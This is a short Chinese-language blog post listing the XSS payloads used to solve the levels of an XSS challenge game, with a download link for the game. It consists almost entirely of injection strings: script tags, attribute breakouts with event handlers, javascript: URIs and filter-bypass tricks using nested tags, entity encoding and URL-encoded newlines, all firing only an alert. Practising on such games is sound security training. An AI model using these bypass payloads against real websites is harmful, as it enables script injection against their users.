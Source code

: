 ```yaml
---
layout: post
title: "xss的语句"
date: 2018-10-05
category: web安全
tags: xss web安全
---
```

这是一个xss的闯关游戏  

[下载链接:](https://pan.baidu.com/s/1bqtFVGrc4TlihuWT2TBxtQ)  
提取码: isre  

xss的语句

	1
	<script>alert(/xss/)</script>
	2
	"><script>alert(/xss/)</script>

	3

	'onmouseover='alert(/xss/)'

	4
	" oninput=alert`xss`//
	" onfocus=alert`xss` autofocus= "
	" onchange=alert`xss` "


	<img src=x onerror=alert(/xss/)>

	5

	"><a href=javascript:alert(/xss/)>

	6
	"><A HREF=javascript:alert(/xss/)>

	7
	"><scrscriptipt>alert(/xss/)</scscriptript>

	8
	html 字符实体编码转换
	java&#x73;cript:alert(1)

	9
	java&#x73;cript:alert(1)/*http://*/

	10
	&t_sort=a" onclick="alert(1)"

	15
	urlencode
	%0a%0d
	<img%0asrc=xx%0aonerror=alert(/xss/)>


